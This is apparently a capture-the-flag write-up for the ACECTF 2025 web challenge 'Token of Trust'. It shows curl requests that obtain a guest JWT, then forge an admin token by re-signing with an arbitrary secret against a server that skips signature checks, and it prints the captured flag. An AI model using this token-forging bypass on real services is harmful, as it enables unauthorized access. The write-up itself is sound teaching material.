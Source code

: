 ```yaml
---
title: ACECTF 2025 - web - Token of Trust
date: 2025-02-28 20:00:00 +0530
categories: [CTF, acectf-2025]
tags: [web, jwt, authentication-bypass]     # TAG names should always be lowercase
description: JWT authentication bypass challenge
toc: true
# comments: false
# pin: true
# published: false
---
```


---
## Initial Analysis

### Challenge Description

```
At first, this web app seems straightforward, but there’s something hidden beneath the surface. It uses a token for authentication, but the way it verifies trust can be manipulated.

The secret lies in how the token is used. Can you find the key to unlock it?

Submit your answer in the following format: ACECTF{3x4mpl3_fl4g}
```

When visiting the URL, the response says:

```
Welcome to the main page!
To log in, visit /login. But remember, POST requests are my love language. 🧡

PS: Don't forget to set your headers for JSON, or I'll just ignore you. 🙃
```

## Authentication Process

Visiting `/login` returns:

```
Oops! Wrong approach.
You can't just waltz in here without a proper POST request.

Try sending a JSON payload like this: {"user":"ace","pass":"ctf"}.

Hint: I only care about your request format, not your credentials. 😉
```

The server expects a **POST request with JSON data** for authentication. Using `curl`, I sent the required payload:

```bash
➜  ~ curl -X POST http://webchall.com/login \
-H "Content-Type: application/json" \
-d '{"user": "ace", "pass": "ctf"}'
```

### Response:

```json
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```

The response contains a **JWT (JSON Web Token)**. Decoding it on [jwt.io](https://jwt.io/) reveals:

```json
{
  "user": "guest"
}
```

### Exploring Restricted Areas

Checking `/robots.txt` reveals:

```
Disallow: /flag (But hey, who listens to robots anyway?)
```

Attempting to access `/flag` results in:

```bash
➜  ~ curl -X POST http://webchall.com/flag
No token? No flag! Bring me a token, and we'll talk. 👀
```

It requires a **token**. Sending the obtained JWT:

```bash
➜  ~ curl -X POST http://webchall.com/flag \
-H "Content-Type: application/json" \
-d '{"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}'
```

Response:

```
Sorry, you're not the admin. No flag for you! 😝
```

The token identifies me as `guest`, so I need **admin access**.

## Exploiting the JWT

Since the token is a **JWT**, modifying the payload might grant admin access. The JWT uses **HMAC SHA256**, but it might not verify the signature properly.

By changing the `"user": "guest"` value to `"user": "admin"` and signing with a **random secret**, I created a modified token:

```bash
➜  ~ curl -X POST http://webchall.com/flag \
-H "Content-Type: application/json" \
-d '{"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.FX63b1vgKrqIM-7xsuWOuEZmN0_jWJeFK-7qJqB6BDI"}'
```

Response:

```
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```

Flag obtained! 🎉

## Conclusion

This challenge demonstrates a **JWT authentication bypass** due to improper signature verification. The server only checks the token’s structure but does not validate the signature, allowing attackers to forge an admin token easily.


Hope this write-up helps in future CTF challenges! 🚀

